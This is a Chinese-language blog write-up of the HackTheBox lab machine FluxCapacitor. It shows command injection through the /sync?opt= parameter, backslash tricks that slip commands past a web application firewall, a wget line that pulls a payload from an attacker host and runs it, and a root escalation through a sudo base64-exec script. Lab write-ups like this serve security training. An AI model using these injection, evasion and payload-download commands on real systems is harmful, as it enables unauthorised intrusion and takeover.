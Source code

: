 ```yaml
---
title: FluxCapacitor（from nobody to root）
categories:
- training
tags:
- training
---
```

10.10.10.69

## scan
`80/tcp open  http    SuperWAF`

查看源代码，有一段注释，是javascript代码。
```
	<!--
		Please, add timestamp with something like:
		<script> $.ajax({ type: "GET", url: '/sync' }); </script>
	-->
```
于是访问`http://10.10.10.69/sync`
```
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty/1.13.6.1</center>
</body>
</html>
```
## 攻击向量

OpenResty® 是一个基于 [Nginx](https://openresty.org/cn/nginx.html) 与 Lua 的高性能 Web 平台，其内部集成了大量精良的 Lua 库、第三方模块以及大多数的依赖项。用于方便地搭建能够处理超高并发、扩展性极高的动态 Web 应用、Web 服务和动态网关。

CVE-2018-9230：OpenResty中的Uri参数溢出

- 可能是版本漏洞
- 扫描sync目录，确认了参数opt，可以执行某些命令

## trying

searchsploit openResty
searchsploit CVE-2018-9230
searchsploit SuperWAF
无exp

---
gobuster扫描存在的目录：
```
sync
synctoy
```
---

经过信息搜集，了解到openResty是一个web服务器（比如说nignx,apache），superwaf没有任何资料。

用curl访问，获取当前时间戳；用浏览器访问，获得403，于是用burp抓包。

如果将`User-Agent:`删除，成功获取当前时间戳
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-03/5.PNG)

## 准备提权
在linux命令中，反斜杠'\' 与其他字符一起，会被解释为特殊含义字符。

例如\n ，换行符；\' ，将单引号转义。

如果不使用单引号和双引号（如：echo \，输出为空），则反斜杠可以被看做自动忽略。

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-03/6.PNG)

利用这个特性，我们可以用反斜杠插入要执行的命令，从而绕过/sync脚本的限制

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-03/7.PNG)

---

```
curl "http://10.10.10.69/sync?opt=' sudo -l'"
curl "http://10.10.10.69/sync?opt=' c\at /home/themiddle/.monit'"
curl "http://10.10.10.69/sync?opt=' whe\reis n\c'"
curl "http://10.10.10.69/sync?opt=' w\hereis python'"
curl "http://10.10.10.69/sync?opt=' w\hereis wg\et'"
curl "http://10.10.10.69/sync?opt=' /usr/bin/pyt\hon3.6 -V'"

curl "http://10.10.10.69/sync?opt=' /usr/bin/wg\et http://10.10.14.7:8888/p.elf -P /tmp'"   发现p.elf不能保存到/tmp，于是将payload改名为index.html.1
curl "http://10.10.10.69/sync?opt=' ch\mod a+x /tmp/index.html.1'"
curl "http://10.10.10.69/sync?opt=' ./tmp/index.html.1'"
```
#### info
```
os: Linux fluxcapacitor 4.13.0-17-generic #20-Ubuntu SMP Mon Nov 6 10:04:08 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

/bin/nc , /usr/bin/python3.6 , /usr/bin/wget
```

#### shell脚本
/home/themiddle/.monit
```
#!/bin/bash

if [ "$1" == "cmd" ]; then
	echo "Trying to execute ${2}"
	CMD=$(echo -n ${2} | base64 -d)
	bash -c "$CMD"
fi
```
## 提权

参考以前[文章](https://whale3070.github.io/training/2018/11/10/x/)
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-03/8.PNG)

```
/usr/bin/python3.6 -c 'import pty; pty.spawn("/bin/bash")'

cd /home/themiddle/
./.monit cmd bHMK
sudo ./.monit cmd Y2F0IC9yb290L3Jvb3QudHh0Cg==（cat /root/root.txt）

通过sudo ./.monit cmd 任意命令

这种方式，可以以root权限执行任意命令
```
## 总结
wfuzz报错了，在这个实验中，fuzz到/sync?opt=，是获得突破点的关键。


